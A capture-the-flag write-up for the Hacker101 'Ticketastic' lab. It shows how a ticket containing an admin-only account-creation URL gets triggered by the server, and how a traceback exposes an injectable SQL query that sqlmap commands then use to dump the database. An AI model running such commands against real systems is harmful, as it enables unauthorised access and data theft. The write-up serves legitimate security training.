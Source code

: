 # Writeup for Ticketastic (Hacker101)
We have a Demo of the site where we could 'test' the product, that consists in a platfrom where an admin can replay to some tickets.

## Flag 1
Logging in with the provided username and password of Demo site on the `/admin` page we see that all the tickets are visible here.
In the description of the first ticket we get the first hint that say:
> This is your ordinary, run of the mill ticket.  If any errors occurred during processing -- 
> for instance, if the user gives a bad link -- these will be noted here.

So there is something that check for malicius url. 
We can exploit that!

Backing to the admin page there is the possibility for the admin to create a new user. If we try to do so we see that the creation is done using a get request. `/newUser?username=<>&password=<>&password2=<>`

So the exploit is pretty simple we have to create a new ticket in the real working site and write in its content the endpoint that creates a new users, then the server will check it and accidentally creates the new user.

It works! When we log in we see the in the first ticket there is the first flag.

## Flag 2
After logged in I try to play a bit with the site, and I see that the retriving of the tickets is done with url query `/ticket?id=1`, and trying to add a quote to the end we see that we get the full stack of an error:
```log
Traceback (most recent call last):
  File "./main.py", line 78, in ticket
    cur.execute('SELECT title, body, reply FROM tickets WHERE id=%s' % request.args['id'])
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'"\' at line 1')
```
It'seems that we can perform a nice SQL Injection.
I decide to use `sqlmap` but we can expoit it also by hand.
Running:
```bash
sqlmap -u '<url>/ticket?id=1' --cookie="session_level7b=<cookie>" -p 'id' -a
```
In the output we see all the content of the DB, but we aren't interested in all the functional schema of it.
In the list of schema we see the Database level7, that's what we need.

```bash
sqlmap -u '<url>/ticket?id=1' --cookie="session_level7b=<cookie>" -p 'id' --dump -D level7`
```

In the outputs we find:

```
Database: level7
Table: users
[2 entries]
+------+----------+------------------------------------------------------------------------------+
| id   | username | password                                                                     |
+------+----------+------------------------------------------------------------------------------+
| 1    | admin    | ^FLAG^....$FLAG$ |
| 2    | pwned    | provami                                                                      |
+------+----------+------------------------------------------------------------------------------+
```
And that's the second flag.
